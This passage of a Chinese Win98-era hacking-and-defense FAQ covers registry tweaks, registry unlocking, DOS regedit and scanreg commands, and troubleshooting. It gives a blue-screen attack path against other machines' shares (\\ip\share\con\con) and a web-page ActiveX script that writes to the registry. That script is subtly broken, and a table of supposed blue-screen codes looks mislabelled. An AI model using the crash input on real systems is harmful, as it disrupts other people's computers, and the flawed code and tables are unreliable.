

### 如何删除查找结果中的文件列表？

`HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion\Explorer\Doc Find Spec MRU`

在这下面，右边窗口中，除了第一个、第二个以及最后一项，其余的均可删除（图 2-6）。



图 2-6

### 如何隐藏桌面上的所有文件？

位置在：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

在下面新建一个 DWORD 值 `NoDesktop`，修改其值为 1，重启计算机即可。

### 我的程序已经删除，但是在添加/删除程序中还是可以看到，怎么办？

引起这种问题的原因是因为在卸载程序的时候没有使用正确的方法卸载，如果有类似情况发生，就有可能会在添加/删除程序中留下垃圾。有的一些程序可以通过修改注册表的方法来清除掉：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall`

在下面可以看到很多软件名称所对应的子键，在里面查找，如果见到已被删除的程序而这里却还有的，删除即可。

### 如何在“我的电脑”中隐藏驱动器的图标？

打开注册表编辑器，来到这个位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

在此分支下 `NoDrives` 键值给不同用户设置不同的磁盘驱动器图标，提供了方便，该值在默认情况下是 `0x00000000`。

`NoDrives`（类型为 DWORD，若没有，则自己新建一个）键值为四个字节，每个字节的每一位就对应于一个盘符（A:~Z:），即第一个字节代表了从 A 到 H 的八个盘符，则 01 为 A，02 为 B，04 为 C……08 为 H，依次类推。第二个字节代表从 I 到 P，第三个字节代表了从 Q 到 X，第四个字节代表了 Y 和 Z 两个。

明白了这个道理就好办了，例如，我们要隐藏 C 盘的话，只要将它的值改为 `04000000`，若要隐藏 D 盘就为 `08000000`，等等。

## 黑客入侵&防御：基础疑难解答

### 如何隐藏“控制面板”？

注册表如下位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`

新建一个 DWORD 值名 `NoDispCPL` 并将其值设置为 `1`。保存退出，如果当时看不到效果的话，重新启动计算机就可以了。

### 如何让别人不能修改我的桌面背景？

通过如下设置，可以使计算机保存个人设置（包括背景图、图标以及快捷方式等）而不被修改：

`HKEY_USERS\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

修改 `NoSaveSettings` 的值由 0 改为 1 即可。

这个方法用来锁定所有的计算机用户的设置，如果只想锁定自己的设置的话，这样做：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

在这个位置做和上面同样的操作，即修改 `NoSaveSettings` 的值。

### 如何防御 winNuke 的攻击？

呵呵，这个问题，恐怖哦。不知道大家有没有遭遇过被 winNuke 攻击，蛮可怕的事情。如果你还没有的话，小心，赶快修改你的注册表：

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\MSTCP`

修改右边窗口中的字符串值（如果没有的话自己新建一个）`BSDUrgent`，值为 0。

### 经常有人恶作剧，给我的屏幕保护加上密码，我能不能禁止这个功能？

修改注册表就可以达到禁止屏幕保护密码功能：

`HKEY_CURRENT_USER\Control Panel\Desktop`

修改 `ScreenSaveUsePassword` 的值，该值为 0 的时候表示不设置密码，为 1 则表示使用预设的屏幕保护密码。

### 我的 IE 的分级审核被打开并加上了口令，怎么办？

修改注册表可以做到，如下位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Ratings`

选择右边的记录并删除，重新启动计算机，就可以了。

### 怎么样才能禁止掉“重新启动计算机并进入 MS-DOS 方式”这一项？

在如下位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

新建一个 DWORD 值 `NoRealMode` 并设置其值为 1。

### 如何修改我的鼠标右键菜单？

在不同地方的右键菜单都是不一样，以下提供几种常见的：

- 1. 在“开始”的右键菜单中增加“计算器”  
  `HKEY_CLASSES_ROOT\Directory\shell` 新建一个子键 `Calculator`，并设置“默认”的值为“计算器”；在 `Calculator` 下新建一个 `Command` 子键，“默认”的值为计算器所在的路径 `c:\windows\calc.exe`（如果是 Win2K 的话，则位置为 `c:\winnt\System32\calc.exe`）。修改完成后在“开始”按钮上点右键会发现多出来一个“计算器”（图 2-7）。



- 2. 在右键菜单中增加“用记事本打开”  
  `HKEY_CLASSES_ROOT\*` 下新建一个 `shell` 子键，在 `shell` 下再新建一个 `Notepad` 子键。右边的“默认”中输入“用记事本打开”。在 `Notepad` 下新建一个子键 `command`，在右边窗口的“默认”中输入可执行文件路径 `c:\windows\notepad.exe %1`（如果是 Win2K 的话，记事本在 `c:\winnt\system32\notepad.exe` 下）。

- 3. 让回收站也具有编辑功能（例如：复制、删除、重命名等）  
  `HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\ShellFolder`  
  在右边双击并编辑 `Attributes`，按需要将其值设置为下面的数据：

  - 重命名功能：`50 01 00 20`
  - 删除功能：`60 01 00 20`
  - 同时增加删除和重命名功能：`70 01 00 20`
  - 复制功能：`41 01 00 20`
  - 剪切功能：`42 01 00 20`
  - 同时增加复制和剪切功能：`43 01 00 20`
  - 同时增加复制和粘贴功能：`45 01 00 20`
  - 同时增加剪切和粘贴功能：`46 01 00 20`
  - 同时增加复制、剪切和粘贴功能：`47 01 00 20`
  - 修改完毕后重新启动计算机生效。

- 4. 禁止任务栏上的右键菜单  
  `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`  
  新建 DWORD 值 `NoTrayContextMenu`，设置其值为 1，重新启动计算机生效。

### 最后的附录部分

### DOS 下编辑使用注册表

`Regedit [/L:system] [/R:user] /E file.reg [regpath]`

各个参数的注释如下：

- `/L:system`：这是指 `system.dat` 文件的路径。
- `/R:user`：这是指 `user.dat` 的路径。
- `/L` 和 `/R` 参数：若没有这两个参数的话，则会在默认路径下（一般是 Win98 所在目录，即 `c:\windows` 下）查找这两个文件。
- `/E`：这个参数的作用是用来表明该操作为导出操作。此参数后应空一格再加上要导出的注册表文件名。
- `[RegPath]`：为可选项，它是指导出操作要导出哪个分支，如果没有特别指出的话，则会导出所有的注册表分支。

例：将保存在 `c:\windows\system.dat` 和 `c:\windows\profiles\user.dat` 中关于控制 Windows 启动项的分支导出到 `test.reg` 中的操作应该写为：

`Regedit /L:C:\windows /R:C:\windows\profile /E test.reg HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`

如果要将 `system.dat` 和 `user.dat` 全部导出的话，使用这个命令：`Regedit /E all.reg`

（2）导入注册表操作：`Regedit [/L:system] [/R:user] file.reg`

例如将 `test.reg` 导入则使用命令：

`Regedit /L:c:\windows /R:c:\windows\profiles test.reg`

（3）重新建立注册表：`Regedit /L:system /R:user /C file.reg`

参数 `/C` 的作用就是指使用 `file.reg` 来重建注册表。

例如，使用 `test.reg` 来重建整个注册表的话，命令为：

`Regedit /L:c:\windows /R:c:\windows\profiles /C test.reg`

（4）删除注册表分支（或子键）：`Regedit /L:system /R:user /D RegPath`

参数 `/D` 的作用就是删除指定的注册表分支。

例如：`Regedit /L:c:\windows /R:c:\windows\profiles /D HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，这样来删除注册表中所有随机启动的分支。

### 注册表解锁五招

- 1. 使用备份的注册表：  
  如果对注册表随时有备份的话，解锁注册表将相当容易。启动计算机并进入纯 DOS 下，转到 Windows 目录下，使用命令 `scanreg /restore`，这样可以选择以前的五次备份中的任何一次进行恢复，通过查看时间查找没有被锁的时候的注册表进行恢复就可以了。  

  **注意：**Win98 下注册表备份是在计算机每进行一次重启的时候进行的。也就是说，如果在注册表被锁以后，重新启动计算机的次数超过了五次的话，将不能使用这个办法来恢复。

- 2. 使用备份文件：  
  如果没有对注册表进行备份，但是对 `system.dat` 和 `user.dat` 进行了备份的话，也是可以的。只要将这两个文件 copy 到自己相应的位置中覆盖现在的文件就可以了。  

  如果 Windows 下无法完成的话，可以在 DOS 下使用这些命令来完成（假设两个备份文件在 C 盘根目录下）：

```
c:\windows>attrib c:\system.dat
c:\windows>attrib c:\user.dat
c:\>ren system.dat backsys.bak
c:\>ren user.dat backusr.bak
c:\windows>copy c:\backsys.bak system.dat
c:\windows>copy c:\backusr.bat user.dat
c:\windows>attrib +h +r +s system.dat
c:\windows>attrib +h +r +s user.dat
```

然后重新启动进入 Windows，就可以了。

- 3. 注册表脚本恢复：  
  大家应该常见了，用记事本写一个这样的脚本（格式要和下面完全相同）：

```
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

**注意：**到此为止才算结束，也就是说，在脚本的最后一行至少要有一个回车才行，这也是很多人编写脚本导入后不能解锁的主要原因。

- 4. DOS 下进行恢复：  
  刚刚讲完 DOS 下的命令，就用它来进行恢复：

`regedit /D HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools`

这样来删除掉分支 `DisableRegistryTools`，也可以起到解锁注册表的作用。

- 5. 浏览 Web 也可以解锁：  
  很多朋友的注册表就是在浏览一个 Web 的时候被锁上的，那么，同样地，我们可以通过浏览 Web 把它解开，用记事本写上以下内容：

```html
<SCRIPT language="javascript">
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>")
function reginfo_disreg_online(){
  try{
    reginfo_disreg=document.applets[0];
    reginfo_disreg.setCLSID("F935DC22-1CF0-11D0-ADB9-00C04FD58A0B");
    reginfo_onlin_shell=reginfo_disreg.GetObject();
    reginfo_disreg.setCLSID("0D43FE01-F093-11CF-8940-00A0C9054228");
    try{reginfo_disreg_online_shell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools",0);}catch(e){}
  }catch(e){}
  setTimeout("reginf_disreg_online()",1000);
}
document.write("看到次信息时，注册表解锁成功</br>")
</Script>
```

将这个脚本保存为 `reg.htm` 然后双击运行，看到“看到次信息时，注册表解锁成功”信息就解锁成功了。

### Scanreg 命令的一些参数

- `/backup`：备份注册表数据
- `/restore`：显示备份文件清单（按照时间的备份顺序来显示）
- `/comment`：设置备份文件的注释
- `/fix`：修复注册表
- `/autoscan`：自动扫描注册表
- `/scanonly`：只扫描注册表，但不备份

- `2`：注册表数据损坏
- `0`：没有错误
- `-2`：内存不足
- `-3`：找不到内存中的注册表数据文件
- `-4`：无法创建 `system.dat` 和 `user.dat`
- `-5`：读注册表数据失败
- `-6`：写注册表的时候失败
- `-7`：注册表数据正在被另外的程序使用中

## 第3章 Win98系统原理及安全性


**Win98 的蓝屏攻击是怎么回事？**

在 Win98 的系统中，存在一个严重的 bug。如果对方共享了一个目录或磁盘的话，那么我们可以通过这种方式来使对方蓝屏：`\\ip\share\con\con`，其中 share 就是共享资源的名称。造成对方蓝屏的原因是因为 con 在 DOS 下是一个用来等待键盘输入的命令，例如我们常见的命令：`copy con hack.bat`。两次调用 con，会导致系统过忙而蓝屏。

**解决办法：**重新启动计算机就可以了。

**防御办法：**不要共享资源；如果必须共享，请设置强密码（但在未打补丁的 Win98 中仍可能被破解）。文中提到该方法在 Win98 多个版本上可成功，部分版本会先死机一段时间后再蓝屏。

**如何才能显示碎片对象的后缀名呢？**

在 Win98 后面的入侵部分讲述了如何使用 Word 制作蓝屏工具。为了更好防御，建议将其真实后缀名显示出来。修改方法：打开注册表编辑器，定位到 `HKEY_CLASSES_ROOT\ShellScrap`，在右侧找到 `NeverShowExt` 并删除，重启后即可看到 `.shs` 后缀（图3-1）。



**我现在用的是 Win98，要想升级到 WinME 会不会出现驱动不兼容问题啊？**

如果没有太特殊的情况，一般不会出现不兼容问题。因为 Windows ME 和 Win98 内核基本一致，没有本质区别，ME 主要是对 98 的一些 bug 修正和界面美化。

**如何在 Win98/ME 下关闭 NETBIOS 端口？**

打开控制面板，进入“网络”窗口，在配置列表中查看是否安装 NETBEUI 协议（一般情况下，Win98/ME 都是默认安装该协议的）。如果没有安装，找来 Win98/ME 的安装光盘，将该协议装上，然后回到“网络”对话框中，选择“拨号适配器”并点“属性”按钮，选择“绑定”，在这里将除了 TCP/IP 外的所有其他协议的复选框前的勾去掉。

再回到“网络”对话框，选择 TCP/IP 协议，点属性，这时候有可能会弹出警告对话框，不用理会它，继续进入 TCP/IP 后选择“绑定”，然后将所有网络协议的复选框前的勾都去掉，点确定。这时候可能又会弹出对话框，提示你至少选择一种协议，还是不用理它，选择 NO，然后重新启动计算机，这时候就关闭了 NETBIOS 端口。

检查一下是否关闭：还是打开“网络”对话框，选择 TCP/IP 协议，点“属性”，在属性里点 NETBIOS 栏，这时候会看到“我希望在 TCP/IP 协议中开启 NETBIOS”这一项，如果前面的勾没有选中，那么就是已经关闭了 NETBIOS 端口了。

> 在浏览一些网站后，我的电脑在启动栏中自动生成了一个 FOLDER.HTT.KBK，而且我的电脑资源下降得好快，还感染到了其他文件和程序。请问这是什么程序，用什么方法可以搞定？

happytime（欢乐时光）蠕虫病毒，专门耗费大量的系统资源，使系统响应速度变慢。可以升级当前使用的杀毒软件进行清除，也可以去找一下欢乐时光的专杀工具。不过，在使用欢乐时光专杀工具的时候要注意一点：工具在扫描完系统后会进行杀毒，注意杀毒结果，有两个文件的处理方法为“清除”而不是“删除”，找到这两个文件，删除它们。虽然这样会影响“我的电脑”的 Web 方式显示，但是仍要这么做，因为这两个文件才是感染源，如果不删除的话，病毒无法真正清除干净。

> Win98 启动的时候，会提示缺少 command.com，然后就无法启动了？

command.com 在 Win98 中十分重要，如果没有的话，便无法正常加载 Win98 中的所有程序。所以，缺少该文件会导致无法启动系统。

**解决办法：**找到一台正常的 Win98 主机，到控制面板的“添加/删除程序”里制作一张启动盘（图3-2）。记住，制作启动盘的过程中是要用光盘的，千万不要因为想省事而使用 `sys a:` 命令来简单制作一张可以启动的软盘。



然后用光盘启动系统，进入纯 DOS 后，在 `A:\>` 提示符状态下，使用命令 `copy command.com c:\windows`（假设 Windows 安装在 C 盘）就可以了，或者也可以使用这个命令：`sys c:`。

> 我的 Win98 经常蓝屏，怎么回事？

Win98 动不动就蓝屏，原因很多元化，实在不好判断，不过还好微软做了点好事，98 在蓝屏的时候会有蓝屏代码，仔细看代码，对应下面的蓝屏代码表，就会找到蓝屏原因。

| 错误码 | 错误信息 |
|---|---|
| 0x0000 | 操作完成 |
| 0x0001 | 不正确的函数 |
| 0x0002 | 系统找不到指定的文件 |
| 0x0003 | 系统找不到指定的路径 |
| 0x0004 | 系统无法打开文件 |
| 0x0005 | 拒绝存取 |
| 0x0006 | 无效的代码 |
| 0x0007 | 内存控制模块已损坏 |
| 0x0008 | 内存空间不足，无法处理这个指令 |
| 0x0009 | 内存控制模块地址无效 |
| 0x000A | 环境不正确 |
| 0x000B | 尝试载入一个格式错误的程序 |
| 0x000C | 存取码错误 |
| 0x000D | 资料错误 |
| 0x000E | 内存空间不够，无法完成这项操作 |
| 0x000F | 系统找不到指定的硬盘 |
| 0x0010 | 无法移除目录 |
| 0x0011 | 系统无法将文件移到其他的硬盘 |
| 0x0012 | 没有任何文件 |
| 0x0019 | 找不到指定的扇区或磁道 |
| 0x001A | 指定的磁盘或磁片无法存取 |
| 0x001B | 磁盘找不到要求的扇区 |
| 0x001C | 打印机没有纸 |
| 0x001D | 系统无法将资料写入指定的磁盘 |
| 0x001E | 系统无法读取指定的装置 |
| 0x001F | 连接到系统的某个装置没有作用 |
| 0x0021 | 文件的一部分被锁定 |
| 0x0024 | 开启的分享文件数量太多 |
| 0x0026 | 到达文件结尾 |
| 0x0027 | 磁盘已满 |
| 0x0036 | 网络繁忙 |
| 0x003B | 网络发生意外的错误 |
| 0x0043 | 网络名称找不到 |
| 0x0050 | 文件已经存在 |
| 0x0052 | 无法建立目录或文件 |
| 0x0053 | int24 失败 |
| 0x006B | 因为代用的磁盘尚未插入，所以程序已经停止 |
| 0x006C | 磁盘正在使用中或被锁定 |
| 0x006F | 文件名太长 |
| 0x0070 | 硬盘空间不足 |
| 0x007F | 找不到指定的程序 |
| 0x045B | 系统正在关机 |
| 0x045C | 无法终止系统关机，因为没有关机的动作在进行中 |
| 0x046A | 伺服服务器储存空间不足，无法处理这项指令 |
| 0x047E | 指定的程序需要新 Windows 版本 |
| 0x047F | 指定的程序不是 Windows 或 MS-DOS 程序 |
| 0x0480 | 指定的程序已经启动，无法再启动一次 |
| 0x0481 | 指定的程序是为旧版的 Windows 所写的 |
| 0x0482 | 执行此应用程序所需的程序库文件之一毁坏 |
| 0x0483 | 没有应用程序与此项操作的指定文件建立关联 |
| 0x0484 | 传送指令到应用程序发生错误 |
| 0x04B0 | 指定的装置名称无效 |
| 0x05A2 | 窗口不是子窗口 |
| 0x05AA | 系统资源不足，无法完成所要求的服务 |
| 0x05AB | 系统资源还不足，无法完成所需要的服务 |
| 0x05AC | 系统资源不足，无法完成所要求的服务 |
| 0x06B9 | 资源不足，无法完成操作 |

我一不小心将“显示桌面”给删掉了，有办法恢复么？

打开记事本，在里面按以下格式写上一段代码：

```ini
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

完成以上工作后，将该文件另存为“显示桌面.scf”就可以了。

我中了“千年老妖”的“妖之吻”，怎么办啊？

- 如果系统重启没有超过五次，重启计算机进入 DOS，在 `C:\windows>` 下输入 `scanreg/restore` 恢复注册表，选择时间最久远的备份恢复。
- 如果第一种方法无效，进入 DOS 后转到 `C:\windows`，输入 `edit system.ini`，找到 `shell=yzw.exe` 并删除，保存退出后重启，再进入 Windows 删除恶作剧程序。

假如有一台机子装了硬盘还原卡，而且 MSDOS 里设置了禁止功能键。请问，如何才能进入纯 DOS 呢？

没有其他什么好的办法了，只能是制作一张 DOS 启动盘，然后重新启动计算机，用软盘启动进入 DOS。如果连软驱都被拆掉的话，凑合用就好了。

什么是批处理文件？

顾名思义，批处理文件就是一个能成批完成任务的文件。使用批处理文件可以省去多次输入命令。例如，我可以编写这样一个批处理文件，内容为：

```bat
@echo off
dir c:\
cls
```

这个批处理就一次性地完成了两个命令，分别是列出 C 盘根目录的所有文件文件夹和清除屏幕两个命令。

我的 Win98 在进入 DOS 后发现系统不能识别光盘的盘符，怎么办？

尝试用下面的方法解决：

- 第一，打开 `config.sys` 文件，对它进行删减，只保留 [CD] 项内容（若 [CD] 在文件中占一行，也应删除），然后另存为 C 盘根目录下的 `config.sys`。如果 C 盘根目录下已有 `config.sys`，可将 [CD] 项内容扩充进去。[CD] 项的内容如下：

```ini
device=himem.sys /testmem:off
device=oakcdrom.sys /D:mscd001
device=btdosm.sys
device=flashpt.sys
device=btcdrom.sys /D:mscd001
device=aspi2dos.sys
device=aspi8dos.sys
device=aspi4dos.sys
device=aspi8u2.sys
device=aspicd.sys /D:mscd001
```

- 第二，在 C 盘根目录下建立一个 `autoexec.bat` 文件，其内容为：`C:\mscdex.exe /D:mscd001`。如果 C 盘根目录下已有 `autoexec.bat` 文件，可将上一行的内容扩充进去。
- 第三，利用系统提供的文件搜索功能，搜索下面的文件并将其拷贝到 C 盘的根目录下（这些文件系统自带）：
  - himem.sys
  - oakcdrom.sys
  - btdosm.sys
  - flashpt.sys
  - btcdrom.sys
  - aspi2dos.sys
  - aspi8dos.sys
  - aspi4dos.sys
  - aspi8u2.sys
  - aspicd.sys
  - mscdex.exe
- 第四，重新启动系统，再直接进入 DOS 环境，这时 DOS 就能够识别光驱了。

## 最后的附录部分：Win98 启动全揭密

在这里，我们先从 Win98 的 MSDOS.SYS 文件的格式以及内容讲起。

MSDOS.SYS 文件由三个小节组成。里面有一些配置参数，这里对这些配置参数做一个介绍。

